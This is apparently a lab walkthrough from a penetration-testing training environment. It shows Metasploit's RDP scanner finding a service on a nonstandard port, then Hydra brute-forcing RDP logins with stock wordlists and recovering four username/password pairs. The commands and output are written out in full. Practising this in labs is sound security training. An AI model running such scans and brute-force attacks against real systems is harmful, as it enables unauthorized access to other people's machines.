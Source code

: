 ```

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.93 seconds

```

[Identify endpoints speaking the Remote Desktop Protocol (RDP)](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp_scanner/)

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
10.0.16.124
msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 auxiliary(scanner/rdp/rdp_scanner) > show options

Module options (auxiliary/scanner/rdp/rdp_scanner):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DETECT_NLA       true             yes       Detect Network Level Authentication (NLA)
   RDP_CLIENT_IP    192.168.0.100    yes       The client IPv4 address to report during connect
   RDP_CLIENT_NAME  rdesktop         no        The client computer name to report during connect, UNSET = random
   RDP_DOMAIN                        no        The client domain name to report during connect
   RDP_USER                          no        The username to report during connect, UNSET = random
   RHOSTS                            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT            3389             yes       The target port (TCP)
   THREADS          1                yes       The number of concurrent threads (max one per host)
msf5 auxiliary(scanner/rdp/rdp_scanner) > set rhosts 10.0.16.124
rhosts => 10.0.16.124
msf5 auxiliary(scanner/rdp/rdp_scanner) > set rport 3333
rport => 3333
msf5 auxiliary(scanner/rdp/rdp_scanner) > run

[*] 10.0.16.124:3333      - Detected RDP on 10.0.16.124:3333      (Windows version: 6.3.9600) (Requires NLA: Yes)
[*] 10.0.16.124:3333      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```
root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.16.124 -s 3333 -t 4
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-15 08:55:26
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.0.16.124:3333/
[3333][rdp] host: 10.0.16.124   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.16.124   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.16.124   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.16.124   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
1 of 1 target successfully completed, 4 valid passwords found
```